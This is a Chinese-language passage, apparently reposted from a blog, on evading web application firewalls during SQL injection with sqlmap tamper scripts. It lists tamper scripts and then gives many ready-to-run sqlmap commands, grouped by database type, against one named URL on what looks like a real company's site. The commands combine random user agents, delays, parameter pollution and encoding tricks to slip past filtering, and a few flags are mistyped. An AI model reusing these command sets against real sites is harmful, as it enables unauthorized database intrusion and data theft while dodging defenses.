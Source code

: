 28 randomcomments.py#用/**/分割sql关键字；Example:‘INSERT’ becomes ‘IN//S//ERT’

29 charunicodeencode.py#ASP，ASP.NET中字符串 unicode 编码；

30 securesphere.py#追加特制的字符串；Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'"

31 versionedmorekeywords.py#MySQL >= 5.1.13注释绕过

32 space2comment.py#Replaces space character (‘ ‘) with comments ‘/**/’

33 halfversionedmorekeywords.py#MySQL < 5.1中关键字前加注释

 
----------
## 0x04 脚本参数组合策略绕过

1 mysql绕过：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 -delay=3.5 --tamper=space2hash.py,modsecurityversioned.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent --hpp  --tamper=space2mysqldash.p,versionedmorekeywords.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=apostrophemask.py,equaltolike.py

备注：这些组合策略可以根据注入的反馈信息，及时调整组合策略

2 MSSQL：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=randomcase.py,charencode.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --hpp --tamper=space2comment.py,randomcase.py
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --time-sec=120  --tamper=space2mssqlblank.py,securesphere.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --tamper=unionalltounion.py,base64encode.p

3 ms access:
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent  --tamper=appendnullbyte.py,space2plus.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent --hpp  --tamper=chardoubleencode.py

4 Oracle：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5 --random-agent --hpp --tamper=unmagicquotes.py,unionalltounion.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5--user-agent =“Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.0” --hpp --tamper=charunicodeencode.py,chardoubleencode.py

5 建议：
      因为WAF可能采用白名单规则，所以对于选择哪种策略，重点是根据-v 3 提示的信息进行判断，可以抓取主流的浏览器的user-agent ,s适当的延时，加上注入字符转换---大小写、空格、字符串、注释、加密等等方式

      鉴于参数和32种脚本，在我们平时的注入，这些通过不同的多重组合来进行测试，这个测试或者比较耗时

ps：转载来源http://blog.csdn.net/qq_29277155/article/details/51193071，感谢作者的分享
